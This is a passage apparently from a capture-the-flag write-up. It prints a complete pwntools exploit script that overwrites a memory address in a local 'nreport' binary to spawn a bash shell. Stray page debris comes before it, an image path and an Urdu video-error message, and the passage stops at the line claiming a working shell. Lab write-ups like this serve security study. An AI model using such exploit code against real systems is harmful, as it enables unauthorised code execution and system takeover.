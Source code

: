 
# ایک خرابی پیش آ گئی۔ {#ایک-خرابی-پیش-آ-گئی .message}

[اس ویڈیو کو www.youtube.com پر دیکھنے کی کوشش
کریں](https://www.youtube.com/watch?v=CAIWF9HzfAc){target="_blank"} یا
اگر آپ کے براؤزر میں JavaScript غیر فعال ہے تو اسے فعال کریں۔

The final script is:



    #!/usr/bin/env python3

    from pwn import *


    def create(title, msg):
        p.sendline(b"1")
        p.sendline(title.encode())
        p.sendline(msg.encode())


    def edit(num, title, msg):
        p.sendline(b"3")
        p.sendline(str(num).encode())
        p.sendline(title.encode())
        p.sendline(msg.encode())


    if args["REMOTE"]:
        p = remote("127.0.0.1", 9851)
    else:
        p = process("./nreport")

    command_addr = 0x4041A8

    # send token
    p.sendline(b"aaaxxxxxxaxxxs")
    # send name
    p.sendline(b"0xdf" + b"\x00" * 4 + p64(command_addr))

    create("title", "message")
    edit(13, "bash\x00", "0xdf")
    x = p.recv()
    p.sendline(b"5")
    p.interactive()



### Shell

#### PTY Issues

Running this exploit locally returns a functional shell:
